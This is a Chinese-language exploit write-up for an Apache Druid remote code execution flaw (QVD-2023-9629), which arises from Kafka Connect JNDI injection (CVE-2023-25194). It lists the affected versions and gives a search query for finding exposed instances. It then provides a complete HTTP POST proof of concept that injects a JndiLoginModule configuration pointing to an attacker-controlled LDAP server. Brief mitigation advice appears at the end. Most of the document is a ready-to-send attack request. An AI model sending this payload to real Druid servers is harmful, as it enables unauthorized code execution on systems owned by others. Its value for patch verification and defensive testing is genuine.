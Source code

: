 # Apache Druid 远程代码执行漏洞 QVD-2023-9629

# Apache Druid 远程代码执行漏洞 QVD-2023-9629

## 漏洞描述

该漏洞源于 Apache Kafka Connect JNDI 注入漏洞（CVE-2023-25194），Apache Druid 由于支持从 Kafka 加载数据，刚好满足其利用条件，攻击者可通过修改Kafka 连接配置属性进行 JNDI 注入攻击，进而在服务端执行任意恶意代码。

## 漏洞影响

```
Apache Druid <= 25.0.0
```

## 网络测绘

```
title="Apache Druid"
```

## 漏洞复现

访问漏洞环境，点击 Load data -> Streaming，进入页面后点击 Apache Kafka -> Connect data：

![image-20230801093324881](images/image-20230801093324881.png)

在 Bootstrap servers 和 Topic 处填入任意字符，点击 Apply，抓包。

poc：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 1437
Connection: close

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"1.1.1.1:9092",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-ip\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"any",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

修改请求包，user.provider.url 处填写你的 ldap 服务 url。

利用 DNSLog 验证漏洞是否存在。

## 修复建议

- 避免 Apache Druid 开放至公网。
- 开启身份认证机制,可参考官方文档：https://druid.apache.org/docs/latest/development/extensions-core/druid-basic-security.html


